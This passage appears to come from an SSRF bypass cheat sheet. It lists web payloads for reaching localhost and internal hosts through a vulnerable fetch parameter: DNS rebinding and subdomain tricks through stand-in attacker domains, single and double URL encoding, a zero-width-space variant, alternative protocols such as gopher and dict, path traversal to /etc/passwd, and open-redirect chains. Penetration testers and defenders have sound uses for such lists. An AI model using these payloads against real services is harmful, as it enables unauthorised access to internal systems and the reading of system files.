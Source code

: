 #### DNS-Based Bypasses
```bash
# DNS rebinding
http://attacker-domain.com/  # Resolves to 127.0.0.1

# Subdomain bypasses
http://127.0.0.1.attacker.com/
http://localhost.attacker.com/

# DNS over HTTPS bypasses
http://dns.google/resolve?name=internal-host&type=A
```

#### URL Encoding Bypasses
```bash
# URL encoding
http%3A//127.0.0.1%3A80/
http%3A%2F%2F127.0.0.1%3A80%2F

# Double URL encoding
http%253A%252F%252F127.0.0.1%253A80%252F

# Unicode encoding
http://127.0.0.1:80/
http://127.0.0.1%E2%80%8B:80/  # Zero-width space
```

#### Protocol Bypasses
```bash
# Alternative protocols
ftp://127.0.0.1/
sftp://127.0.0.1/
tftp://127.0.0.1/
ldap://127.0.0.1/
gopher://127.0.0.1/
dict://127.0.0.1/

# Protocol confusion
http://127.0.0.1:80/../../etc/passwd
https://127.0.0.1:443/../../../etc/passwd
```

### 2. 🔄 Redirect-Based SSRF

#### Open Redirect Chaining
```bash
# Chain open redirect with SSRF
http://vulnerable-app.com/fetch?url=http://trusted-domain.com/redirect?url=http://127.0.0.1:80/

# Multiple redirect chains
http://vulnerable-app.com/fetch?url=http://redirect1.com/r?url=http://redirect2.com/r?url=http://127.0.0.1/
```
